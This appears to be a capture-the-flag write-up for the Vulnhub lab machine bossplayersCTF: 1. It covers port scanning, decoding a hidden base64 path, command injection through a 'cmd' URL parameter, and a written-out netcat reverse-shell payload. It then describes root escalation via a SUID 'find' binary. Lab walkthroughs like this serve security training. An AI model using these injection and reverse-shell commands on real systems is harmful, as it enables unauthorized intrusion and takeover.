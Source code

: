 # CTF-Write-up

## Vulnhub -   bossplayersCTF: 1

##### URL: https://www.vulnhub.com/entry/bossplayersctf-1,375/

##### Created by _https://www.vulnhub.com/author/cuong-nguyen,649/_

![logo](https://user-images.githubusercontent.com/20625004/161815571-55e220df-8854-4ac1-8d5d-bd3ad6aa0339.PNG)

First run ``nmap`` to identify open ports.

![nmap](https://user-images.githubusercontent.com/20625004/164456576-e175cdb0-b5bb-42e5-94ed-2458c8a1e453.PNG)

Lets access port ``80``.

![80](https://user-images.githubusercontent.com/20625004/164456674-75417553-5d59-498a-b5c2-e0fdfe2fde02.PNG)

Nothing there, but lets check also ``view page source`` of the page, and we found a comment.

![comment](https://user-images.githubusercontent.com/20625004/164456938-5726a38f-2972-4193-8318-1894852238f5.PNG)

It seemed like Base64, so decode it using ``base64`` command. The output shows another encodeded text, it seems like ``base64``, so decoded it again, now
we found something interesting a path.

![base64](https://user-images.githubusercontent.com/20625004/164457930-258c0850-2322-4a66-b4f6-089e0820d2e5.PNG)

Access the new page.

![php](https://user-images.githubusercontent.com/20625004/164458185-1d8e0e27-d26f-4ef2-ae3e-c399dd7f73b9.PNG)

It seems to be a to-do list, from the list we understand that ``ping`` and ``privilege escalation`` are not fixed yet.
``ping`` from the list indicates a ``command injection`` might exist, lets use the ``cmd`` parameter to see.

![ping](https://user-images.githubusercontent.com/20625004/164458891-6d15bf00-4168-4e1e-8b42-01f80d78a9eb.PNG)


![ping1](https://user-images.githubusercontent.com/20625004/164459059-6e9237ab-4c1c-499c-8164-fb41758866ff.PNG)

Success ``command injection`` is working. The ``cmd`` parameter is working and we added ``id`` and ``ls -l`` commands as parameter values.

The next step here is to obtain shell access.

Open a listener ``nc -lvnp port``, then we enter in the url the command ``nc -e /bin/bash <your IP> port`` this will open a shell.

``http://<Target IP>/workinginprogress.php?cmd=nc -e /bin/bash <your IP> port``

![access](https://user-images.githubusercontent.com/20625004/164460639-acea9da4-bbb1-43c3-94df-83ffe895ea64.PNG)

Back on our listener we have successfully obtained a shell and entered the system.

You can use ``python -c 'import pty; pty.spawn("/bin/bash")'`` command to upgrade the dumb shell.

![system1](https://user-images.githubusercontent.com/20625004/164462346-a9ce9a02-a471-4c6a-ba3a-fe052331ac66.PNG)

After enumaration and searching around, then we search for ``SUID (Set owner User ID up on execution)`` permissions.

![find](https://user-images.githubusercontent.com/20625004/164463852-415044ae-439e-4530-a4cd-7fbbb6e72c2f.PNG)

Now we enumerated the target machine for the list of commands that the user is allowed to execute without root permissions, and we found that the ``find`` command can be executed with ``root`` privileges.

![escalate](https://user-images.githubusercontent.com/20625004/164465394-5dfa66a3-4e37-4ff7-86a3-210d80d7a290.PNG)

With help from ``https://gtfobins.github.io/gtfobins/find/`` we have escalated our privileges and on ``root`` folder you will find the flag in ``base64`` encoding.

![flag](https://user-images.githubusercontent.com/20625004/164465724-a240506e-cffb-4293-be07-9be6f535275a.PNG)









